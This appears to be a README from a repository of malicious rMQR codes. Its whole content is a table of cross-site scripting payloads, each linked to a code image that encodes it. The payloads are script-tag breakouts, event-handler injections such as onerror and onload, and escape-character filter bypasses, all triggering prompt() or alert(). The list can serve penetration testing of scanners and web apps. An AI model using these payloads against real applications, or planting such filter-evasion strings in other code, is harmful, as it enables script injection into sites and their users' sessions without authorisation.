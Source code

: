 ## xss

| Payload | rMQR |
| ----- | ----- |
| `"-prompt(8)-"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/1.png) |
| `'-prompt(8)-'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/2.png) |
| `";a=prompt,a()//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/3.png) |
| `';a=prompt,a()//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/4.png) |
| `"onclick=prompt(8)>"@x.y` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/7.png) |
| `"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/8.png) |
| `<image/src/onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/9.png) |
| `<img/src/onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/10.png) |
| `<image src/onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/11.png) |
| `<img src/onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/12.png) |
| `<img src =q onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/14.png) |
| `</scrip</script>t><img src =q onerror=prompt(8)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/15.png) |
| `<script\x20type="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/16.png) |
| `<script\x3Etype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/17.png) |
| `<script\x0Dtype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/18.png) |
| `<script\x09type="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/19.png) |
| `<script\x0Ctype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/20.png) |
| `<script\x2Ftype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/21.png) |
| `<script\x0Atype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/22.png) |
| ``'`"><\x3Cscript>javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/23.png) |
| ``'`"><\x00script>javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/24.png) |
| `<img src=1 href=1 onerror="javascript:alert(1)"></img>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/25.png) |
| `<audio src=1 href=1 onerror="javascript:alert(1)"></audio>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/26.png) |
| `<video src=1 href=1 onerror="javascript:alert(1)"></video>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/27.png) |
| `<body src=1 href=1 onerror="javascript:alert(1)"></body>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/28.png) |
| `<image src=1 href=1 onerror="javascript:alert(1)"></image>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/29.png) |
| `<object src=1 href=1 onerror="javascript:alert(1)"></object>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/30.png) |
| `<script src=1 href=1 onerror="javascript:alert(1)"></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/31.png) |
| `<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/32.png) |
| `<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/33.png) |
| `<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/34.png) |
| `<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/35.png) |
| `<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/36.png) |
| `<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/37.png) |